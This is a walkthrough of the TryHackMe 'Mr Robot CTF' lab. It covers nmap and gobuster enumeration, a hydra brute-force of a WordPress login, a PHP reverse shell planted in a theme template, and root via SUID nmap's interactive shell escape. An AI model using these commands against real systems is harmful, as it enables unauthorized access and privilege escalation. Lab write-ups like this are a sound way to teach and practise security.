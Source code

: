 ```yaml
---
title: "Mr Robot CTF"
date: 2025-03-06
image: /assets/img/tryhackme/Mrrobot/mrrobot_image.jpg
description: Writeup of the TryHackMe-CTF Mr Robot CTF
categories: [Tryhackme, Medium]
tags: [linux, wordpress, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Mr Robot CTF</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Based on the Mr. Robot show, can you root this box?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Medium</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/mrrobot">https://tryhackme.com/room/mrrobot</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Mr Robot CTF.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.233.174      
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:16 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.036s latency).
  Not shown: 65532 filtered tcp ports (no-response)
  PORT    STATE  SERVICE
  22/tcp  closed ssh
  80/tcp  open   http
  443/tcp open   https

  Nmap done: 1 IP address (1 host up) scanned in 109.20 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443 10.10.233.174
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 13:18 EST
  Nmap scan report for 10.10.233.174
  Host is up (0.11s latency).

  PORT    STATE  SERVICE  VERSION
  22/tcp  closed ssh
  80/tcp  open   http     Apache httpd
  |_http-server-header: Apache
  |_http-title: Site doesn't have a title (text/html).
  443/tcp open   ssl/http Apache httpd
  |_http-server-header: Apache
  | ssl-cert: Subject: commonName=www.example.com
  | Not valid before: 2015-09-16T10:45:03
  |_Not valid after:  2025-09-13T10:45:03
  |_http-title: Site doesn't have a title (text/html).

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The website displayed an awesome Mr. Robot-themed boot progress and command interface:

![MR Robot theme](/assets/img/tryhackme/Mrrobot/thm_mrrobot_1.jpg)

After interacting with it for a bit, I didn't find anything interesting and moved on to directory enumeration:

```gobuster
$ gobuster dir --url http://10.10.233.174/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.233.174/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,txt,php
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 214]
  /index.html           (Status: 200) [Size: 1188]
  /images               (Status: 301) [Size: 236] [--> http://10.10.233.174/images/]
  /index.php            (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /blog                 (Status: 301) [Size: 234] [--> http://10.10.233.174/blog/]
  /rss                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /sitemap              (Status: 200) [Size: 0]
  /login                (Status: 302) [Size: 0] [--> http://10.10.233.174/wp-login.php]
  /0                    (Status: 301) [Size: 0] [--> http://10.10.233.174/0/]
  /feed                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /video                (Status: 301) [Size: 235] [--> http://10.10.233.174/video/]
  /image                (Status: 301) [Size: 0] [--> http://10.10.233.174/image/]
  /atom                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/atom/]
  /wp-content           (Status: 301) [Size: 240] [--> http://10.10.233.174/wp-content/]
  /admin                (Status: 301) [Size: 235] [--> http://10.10.233.174/admin/]
  /audio                (Status: 301) [Size: 235] [--> http://10.10.233.174/audio/]
  /intro                (Status: 200) [Size: 516314]
  /wp-login             (Status: 200) [Size: 2613]
  /wp-login.php         (Status: 200) [Size: 2613]
  /css                  (Status: 301) [Size: 233] [--> http://10.10.233.174/css/]
  /rss2                 (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /license              (Status: 200) [Size: 309]
  /license.txt          (Status: 200) [Size: 309]
  /wp-includes          (Status: 301) [Size: 241] [--> http://10.10.233.174/wp-includes/]
  /readme               (Status: 200) [Size: 64]
  /readme.html          (Status: 200) [Size: 64]
  /js                   (Status: 301) [Size: 232] [--> http://10.10.233.174/js/]
  /wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.233.174/wp-login.php?action=register]
  /wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/]
  /rdf                  (Status: 301) [Size: 0] [--> http://10.10.233.174/feed/rdf/]
  /page1                (Status: 301) [Size: 0] [--> http://10.10.233.174/]
  /robots               (Status: 200) [Size: 41]
  /robots.txt           (Status: 200) [Size: 41]
```

While `gobuster` was running, I manually searched for common files and found two entries in `robots.txt`, which I downloaded: 
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The first flag inside `key-1-of-3.txt` and the `fsocity.dic` seemed to be a wordlist that might be useful later:
```bash
$ cat key-1-of-3.txt
	[removed]
$ wc -l fsocity.dic                                  
	858160 fsocity.dic
```

Since the `gobuster` scan was completed, I started checking the directories one by one. Nothing useful - except for a WordPress instance. I used `wpscan` to check for version numbers, plugins or vulnerabilities, but nothing useful came up. Keeping the wordlist in mind, I attempted a brute-force login. Finding a valid username was easy: I simply searched for `mr robot character name list`, tried a few, and got a hit:

![WordPress login](/assets/img/tryhackme/Mrrobot/thm_mrrobot_2.jpg)

Because the wordlist was quite large, I used `hydra`, since it allows a higher number of parallel connections compared to `wpscan`. However, the estimated time was over five hours, so I canceled the process after five minutes. Assuming the password was somewhere in the wordlist, I reversed it using `tac` and tried again:  
```bash
$ cat fsocity.dic | tac > reverse_fsocity.dic
$ hydra -l 'elliot' -P reverse_fsocity.dic 10.10.211.229 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered"
	[80][http-post-form] host: 10.10.211.229   login: elliot   password: [removed]
```

Great! I was able to log in. From here, I injected a PHP reverse shell into the `404` template.

![404 Template](/assets/img/tryhackme/Mrrobot/thm_mrrobot_3.jpg)

After setting up a listener, I triggered the shell by visiting a non-existent page:
```bash
$ whoami
	daemon
$ cat key-2-of-3.txt 
	cat: key-2-of-3.txt: Permission denied
```

## Privilege Escalation robot

Since I had initial access I performed some stabilization and started to explore the machine. I found a file with an interesting extension:
```bash
daemon@linux:/home/robot$ cat password.raw-md5 
	robot:[removed]
```

A quick lookup on Crackstation revealed the plaintext password for `robot`. Using it, I retrieved the second flag:

![Crackstation](/assets/img/tryhackme/Mrrobot/thm_mrrobot_4.jpg)

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
	[removed]
```

## Privilege Escalation root

I started by checking `sudo -l`, but I had no permission. Next, I checked the sudo version, tried an exploit, but had no success. Checking for binaries with the SUID set, I found something interesting:
```bash
robot@linux:/var/tmp$ find / -perm /4000 -type f 2>/dev/null
[...]
	/usr/local/bin/nmap
[...]
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/nmap/">GTFOBins</a> provided me everthing I needed:
```bash
robot@linux:/var/tmp$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# cd /root
# ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
	[removed]
```

solved! :)
